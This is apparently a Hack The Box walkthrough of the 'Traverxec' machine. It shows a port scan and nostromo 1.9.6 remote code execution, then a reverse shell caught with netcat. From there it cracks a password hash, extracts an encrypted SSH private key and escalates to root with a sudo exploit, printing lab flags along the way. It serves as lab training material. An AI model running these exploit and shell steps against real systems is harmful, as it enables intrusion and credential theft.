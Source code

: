```yaml
---
categories: [hackthebox , walkthrough]
tags: [Password Cracking, PrivEsc, Public Exploit]
---
```

# Traverxec
### Lets see the IP address →

```bash
IP : 10.10.10.165
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.10.165
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-07-21 12:26 IST
Nmap scan report for 10.10.10.165
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled.png)

Lets search an exploit related to `nostromo 1.9.6`  →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ searchsploit nostromo 1.9.6]
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path]
------------------------------------------------ ---------------------------------
nostromo 1.9.6 - Remote Code Execution          | multiple/remote/47837.py]
------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Lets try it out now →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ python2 cve2019-16278.py 10.10.10.165 80 whoami

                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/

HTTP/1.1 200 OK
Date: Fri, 21 Jul 2023 07:09:46 GMT
Server: nostromo 1.9.6
Connection: close

www-data
```

Now lets try reverse shell command execution from it →

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.213] from (UNKNOWN) [10.10.10.165] 51210
whoami
www-data
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ id    
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@traverxec:/usr/bin$
```

Found something interesting →

```bash
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
www-data@traverxec:/var/nostromo/conf$
```

Now with the help of hashcat I decoded the password of david →

```bash
hashes.txt = $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

commands : hashcat -m 500 hashes.txt /usr/share/wordlists/rockyou.txt
```

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled%202.png)

```bash
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

But each time I use this password it says invalid →

```bash
www-data@traverxec:/home$ su david
Password: 
su: Authentication failure
www-data@traverxec:/home$
```

Lets find something else →

Now while checking the `nostromo/conf/nhttpd.conf` →

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled%203.png)

so since I am not allowed to enter into david so lets list file inside of david user using `public_www` →

```bash
www-data@traverxec:/home/david$ ls -al public_www/
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
www-data@traverxec:/home/david$ ls -al public_www/protected-file-area/
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
www-data@traverxec:/home/david$
```

Now lets see inside the `backup-ssh-identity-files.tgz` file →

```bash
www-data@traverxec:/home/david$ tar -tvf public_www/protected-file-area/backup-ss
sh-identity-files.tgz
drwx------ david/david       0 2019-10-25 17:02 home/david/.ssh/
-rw-r--r-- david/david     397 2019-10-25 17:02 home/david/.ssh/authorized_keys
-rw------- david/david    1766 2019-10-25 17:02 home/david/.ssh/id_rsa
-rw-r--r-- david/david     397 2019-10-25 17:02 home/david/.ssh/id_rsa.pub
www-data@traverxec:/home/david$
```

Now if I can extract data so extract at /tmp/Data location so for that I used this command →

```bash
tar zxvf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz -C /tmp/Data
```

```bash
www-data@traverxec:/tmp/Data$ find .
.
./home
./home/david
./home/david/.ssh
./home/david/.ssh/authorized_keys
./home/david/.ssh/id_rsa
./home/david/.ssh/id_rsa.pub
www-data@traverxec:/tmp/Data$
```

Lets see the `id_rsa` file here →

```bash
www-data@traverxec:/tmp/Data/home/david/.ssh$ cat id_rsa]
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w]
-----END RSA PRIVATE KEY-----
www-data@traverxec:/tmp/Data/home/david/.ssh$
```

Lets see the paraphrase of `id_rsa` from cracking it through `john the ripper` →

![Untitled](/Vulnhub-Files/img/Traverxec/Untitled%204.png)

Lets try the SSH login now with password and private key too →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Traverxec]
└─$ ssh david@traverxec.htb -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ ls -al
total 36
drwx--x--x 5 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 root  root  4096 Oct 25  2019 ..
lrwxrwxrwx 1 root  root     9 Oct 25  2019 .bash_history -> /dev/null
-rw-r--r-- 1 david david  220 Oct 25  2019 .bash_logout
-rw-r--r-- 1 david david 3526 Oct 25  2019 .bashrc
drwx------ 2 david david 4096 Oct 25  2019 bin
-rw-r--r-- 1 david david  807 Oct 25  2019 .profile
drwxr-xr-x 3 david david 4096 Oct 25  2019 public_www
drwx------ 2 david david 4096 Oct 25  2019 .ssh
-r--r----- 1 root  david   33 Jul 21 00:14 user.txt
david@traverxec:~$ cat user.txt
44321fe1b9364d36aee2333a9ccb0715
david@traverxec:~$
```

Now I find the version of sudo outdated so I tried this exploit directly and I got what I wanted →
[exploit_nss.py File](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) 

```bash
www-data@traverxec:/$ sudo -V
Sudo version 1.8.27
Sudoers policy plugin version 1.8.27
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.27
www-data@traverxec:/$
```

```bash
david@traverxec:/tmp$ python exploit.py
# /bin/bash -i
root@traverxec:/tmp# whoami
root
root@traverxec:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(david)
root@traverxec:/tmp# cd /root
root@traverxec:/root# ls -al
total 64
drwx------  3 root root  4096 Nov 12  2019 .
drwxr-xr-x 18 root root  4096 Sep 16  2022 ..
lrwxrwxrwx  1 root root     9 Oct 25  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root  4096 Nov 12  2019 .local
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root 37520 Oct 25  2019 nostromo_1.9.6-1.deb
-r--------  1 root root    33 Jul 21 00:14 root.txt
root@traverxec:/root# cat root.txt
f0310cddcfa7d2fa7927fead112c5bf3
root@traverxec:/root#
```